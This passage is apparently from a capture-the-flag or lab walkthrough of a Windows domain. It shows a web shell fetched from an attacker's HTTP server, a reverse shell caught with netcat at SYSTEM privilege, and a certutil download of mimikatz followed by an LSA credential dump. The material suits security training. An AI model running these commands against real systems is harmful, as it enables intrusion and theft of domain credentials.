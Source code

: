 Once injected, we can reload the page. We will see in the logs of our local web server that we downloaded earlier that the file was successfully downloaded.

```bash
─# python -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.175.134 - - [12/Jul/2025 18:00:03] "GET /shell1.php HTTP/1.1" 200 -
```

1. We can now execute the payload on the endpoint: [http://10.10.175.134/dev/shell.php](http://10.10.175.134/dev/shell.php)

With our listener in place, we obtain a shell.

```bash
└─# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.6.184] from (UNKNOWN) [10.10.175.134] 51737
b374k shell : connected

Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\Temp> whoami
 whoami
nt authority\system

C:\Windows\Temp>
```

## Domain enumeration

Remember that the goal is to have control over the parent domain trusted.lab.
Since SYSTEM is our machine that is in the domain, this allows us to list the domain as a user belonging to the domain. But before that, we already see two users who have had access to the machine.

```bash

 Directory of C:\Users

09/18/2022  09:07 PM    <DIR>          .
09/14/2022  03:20 PM    <DIR>          Administrator
09/19/2022  10:50 AM    <DIR>          cpowers
09/18/2022  09:07 PM    <DIR>          ewalters
09/15/2021  03:12 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  15,416,614,912 bytes free

C:\Users>
```

With our privilege, we can try to dump the LSA memory. With Mimikatz uploader from our machine, we can perform the dump. 

```bash
certutil -urlcache -f http://10.8.6.184:9001/mimikatz.exe mimikatz.exe

.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
